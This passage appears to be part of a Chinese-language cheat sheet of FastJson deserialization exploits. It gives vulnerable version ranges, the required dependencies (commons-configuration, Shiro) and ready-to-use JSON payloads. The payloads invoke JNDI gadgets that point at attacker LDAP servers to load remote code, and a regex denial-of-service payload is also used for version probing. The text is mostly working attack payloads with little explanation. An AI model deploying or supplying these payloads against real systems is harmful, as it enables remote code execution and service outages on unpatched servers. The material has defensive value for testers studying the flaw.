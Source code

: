 ```java
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }
```
# FastJson <=1.2.60
commons-configuration-1.10,且autotype enable：`ParserConfig.getGlobalInstance().setAutoTypeSupport(true)`
```xml
<dependency>
    <groupId>commons-configuration</groupId>
    <artifactId>commons-configuration</artifactId>
    <version>1.10</version>
</dependency>
```
```java
{"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"ldap://10.30.1.214:1389/msy62c"}
```

# FastJson <=1.2.61
 autotype anable：
```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-configuration2</artifactId>
    <version>2.8.0</version>
</dependency>
```
```java
{"@type":"org.apache.commons.configuration2.JNDIConfiguration","prefix":"ldap://10.30.1.214:1389/msy62c"}
```
# FastJson <=1.2.67
## Shiro
条件：开启autotype,存在shiro(不限版本)即可通杀
```xml
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-core</artifactId>
    <version>1.5.2</version>
</dependency>
```
```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.0.107:1389/y0drfh","instance":{"$ref":"$.instance"}}
```
# FastJson 1.2.36~1.2.62
存在拒绝服务攻击，无其他条件，可变相用于黑盒版本探测
```json
{"regex":{"$ref":"$[blue rlike '^[a-zA-Z]+(([a-zA-Z ])?[a-zA-Z]*)*$']"},"blue":"aaaaaaaaaaaaaaaaaaaaaaaaaaaa!"}

{"regex":{"$ref":"$[\blue = /\^[a-zA-Z]+(([a-zA-Z ])?[a-zA-Z]*)*$/]"},"blue":"aaaaaaaaaaaaaaaaaaaaaaaaaaaa!"}
```
# FastJson <=1.2.68